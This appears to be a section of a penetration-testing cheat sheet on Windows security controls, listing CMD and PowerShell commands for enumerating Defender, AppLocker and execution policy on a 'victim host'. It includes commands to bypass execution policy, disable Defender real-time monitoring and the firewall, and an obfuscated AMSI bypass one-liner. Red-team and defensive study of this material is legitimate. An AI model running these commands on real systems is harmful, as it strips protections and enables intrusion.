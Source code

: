 
## 5. Security controls 

**cmd**

```cmd
# Check if Windows Defender is running (from CMD.exe). 
sc query windefend
```

### Powershell
[See powershell](powershell.md).

**Policies and antivirus**

```powershell
# Lists available modules loaded for use.
Get-Module	

#  print the execution policy settings for each scope on a host.
Get-ExecutionPolicy -List	

#This will change the policy for our current process using the -Scope parameter. Doing so will revert the policy once we vacate the process or terminate it. This is ideal because we won't be making a permanent change to the victim host.
Set-ExecutionPolicy Bypass -Scope Process	
```

 [AppLocker](https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/applocker/what-is-applocker) is Microsoft's application whitelisting solution and gives system administrators control over which applications and files users can run.

```powershell
# Enumerate AppLocker policies 
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
# If we find that a file cannot be run from a location, maybe we can try to run it from another location.

# Quickly enumerate whether we are in Full Language Mode or Constrained Language Mode.
$ExecutionContext.SessionState.LanguageMode

# Check current execution policy. If the answer is
# - "Restricted": Ps scripts cannot run.
# - "RemoteSigned": Downloaded scripts will require the script to be signed by a trusted publisher.
Get-ExecutionPolicy

# Bypass execution policy
powershell -ep bypass

# Get the current Defender status.
Get-MpComputerStatus

# Deactivate antivirus from powershell session (if user has rights to do so)
Set-MpPreference -DisableRealtimeMonitoring $true

# Disable firewall
netsh advfirewall set allprofiles state off

# Bypass AMSI
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

# Add a registry
```
